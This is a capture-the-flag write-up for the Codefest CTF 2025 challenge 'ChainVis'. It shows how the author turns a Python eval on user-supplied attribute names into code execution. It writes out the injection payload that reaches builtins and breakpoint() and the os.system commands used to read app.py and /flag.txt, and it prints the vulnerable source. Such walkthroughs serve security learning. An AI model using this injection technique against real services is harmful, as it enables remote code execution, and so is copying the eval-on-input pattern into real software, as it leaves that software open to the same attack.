 # Codefest CTF 2025

## ChainVis

> 
> I tried to understand blockchain. Seemed too tough so I made a visualizer for a chain....with blocks.
>
>  Author: 0xkn1gh7
>

Tags: _misc_

## Solution
This challenge comes with a netcat connection only, no source or other attachment. After connecting we get a small user interface.

```bash

 ██████╗██╗  ██╗ █████╗ ██╗███╗   ██╗    ██╗   ██╗██╗███████╗
██╔════╝██║  ██║██╔══██╗██║████╗  ██║    ██║   ██║██║██╔════╝
██║     ███████║███████║██║██╔██╗ ██║    ██║   ██║██║███████╗
██║     ██╔══██║██╔══██║██║██║╚██╗██║    ╚██╗ ██╔╝██║╚════██║
╚██████╗██║  ██║██║  ██║██║██║ ╚████║     ╚████╔╝ ██║███████║
 ╚═════╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝  ╚═══╝      ╚═══╝  ╚═╝╚══════╝

A blockchain visualizer. Atleast I think so.


1. Add a block to the chain
2. View chain
3. Access a block
4. Exit

[-] ENTER OPTION:
```

We can `add` blocks to a `blockchain`, we can `view` the chain and we can `access` a certain block. Lets try this.

```bash
[-] ENTER OPTION: 1
[-] MONEY IN THE TRANSACTION: 99999999

1. Add a block to the chain
2. View chain
3. Access a block
4. Exit

[-] ENTER OPTION: 2
[*] 1 BLOCKS IN CHAIN.

----------
| ID - 1 |
----------
```

After creating one block, we can access the block. The attributes we can access are not clear, it only hints we can access `id`, but that is really not much information.

```bash
1. Add a block to the chain
2. View chain
3. Access a block
4. Exit

[-] ENTER OPTION: 3
[-] CHOOSE BLOCK ID: 1

[*] SELECTED BLOCK ID: 1
1. Access Attribute (eg - id)
2. Back to main menu

[-] ENTER OPTION: 1
ATTRIBUTE: id
1
```

So lets try out some inputs, most inputs exit the connection whenever we enter something unintended. But attributes are pretty free, the program just gives us `[!] INVALID` whenever a attribute was not found. Lets do a wild guess: What if the program is running python and accessing attributes is via python dictionaries?

```bash
ATTRIBUTE: __dict__
{'id': 1, 'transaction': 1}
```

Wow, this worked. We can inject python here. After some trial and error we can find `builtins` and there we have `breakpoint` that gives us a nicer python shell.

```bash
ATTRIBUTE: __class__.__init__.__globals__['__builtins__'].__dict__['breakpoint']()
None
--Return--
> <string>(1)<module>()->None
(Pdb)
```

From here we can start to enumerate the server. 

```bash
(Pdb) from os import system
(Pdb) system("ls")
app.py
docker-entrypoint.sh
0
(Pdb) system("cat app.py")
#!/usr/bin/env python3

def banner():
    print(f'''
 ██████╗██╗  ██╗ █████╗ ██╗███╗   ██╗    ██╗   ██╗██╗███████╗
██╔════╝██║  ██║██╔══██╗██║████╗  ██║    ██║   ██║██║██╔════╝
██║     ███████║███████║██║██╔██╗ ██║    ██║   ██║██║███████╗
██║     ██╔══██║██╔══██║██║██║╚██╗██║    ╚██╗ ██╔╝██║╚════██║
╚██████╗██║  ██║██║  ██║██║██║ ╚████║     ╚████╔╝ ██║███████║
 ╚═════╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝  ╚═══╝      ╚═══╝  ╚═╝╚══════╝

A blockchain visualizer. Atleast I think so.
    ''')

def print_menu():
    print('''
1. Add a block to the chain
2. View chain
3. Access a block
4. Exit
    ''')

class Block:
    def __init__(self, block_id, transaction):
        self.id = block_id
        self.transaction = transaction

chain = []

banner()
while True:
    print_menu()
    user = int(input("[-] ENTER OPTION: "))
    if user == 1:
        if len(chain) == 9:
            print('[*] MAX BLOCKS IN CHAIN')
            continue
        money = int(input("[-] MONEY IN THE TRANSACTION: "))
        block = Block(len(chain)+1, money)
        chain.append(block)
    elif user == 2:
        print(f"[*] {len(chain)} BLOCKS IN CHAIN.")
        for i in chain:
            print(f'''
----------
| ID - {i.id} |
----------
            ''')
    elif user == 3:
        user_id = int(input("[-] CHOOSE BLOCK ID: "))-1
        if user_id < 0 or user_id >= len(chain):
            print("[*] INVALID BLOCK ID")
            continue
        block = chain[user_id]
        while True:
            print(f'''
[*] SELECTED BLOCK ID: {block.id}
1. Access Attribute (eg - id)
2. Back to main menu
            ''')
            user2 = int(input("[-] ENTER OPTION: "))
            if user2 == 1:
                attr = input('ATTRIBUTE: ')
                try:
                    eval("print(block."+attr+")")
                except:
                    print("[!] INVALID")
                    continue
            else:
                break
    else:
        break0
```

Finally we find the flag to be located in the root folder, and get the flag.

```bash
(Pdb) system("ls /")
app
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
0
(Pdb) system("cat /flag.txt")
CodefestCTF{n07_r34lly_4_bl0ckch41n_Oc6lVEI1}
0
```

Flag `CodefestCTF{n07_r34lly_4_bl0ckch41n_Oc6lVEI1}`